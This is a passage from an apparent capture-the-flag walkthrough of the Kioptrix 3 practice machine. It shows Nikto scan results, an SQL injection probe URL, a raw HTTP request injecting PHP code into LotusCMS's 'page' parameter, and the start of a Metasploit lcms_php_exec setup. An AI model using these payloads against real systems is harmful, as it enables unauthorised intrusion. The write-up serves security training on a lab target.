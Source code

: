 + OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 6543 requests: 0 error(s) and 16 item(s) reported on remote host
+ End Time:           2015-04-25 20:44:21 (GMT2) (8 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endcodeblock %}

After browsing the web page, we can find several vulnerabilities.

SQL injection:
{% codeblock %}
http://kioptrix3.com/gallery/gallery.php?id=1%27
{% endcodeblock %}

Remote Code execution:
{% codeblock %}
POST /index.php HTTP/1.1
Host: kioptrix3.com
User-Agent: Mozilla
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=cd5a425d8b3a044f54c070eb10470ff1
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

page=index');eval(phpinfo());#
{% endcodeblock %}

The second one has a Metasploit module that we can use (for LotusCMS):
{% codeblock %}
msf > use exploit/multi/http/lcms_php_exec 
msf exploit(lcms_php_exec) > show options 

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    80               yes       The target port
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host
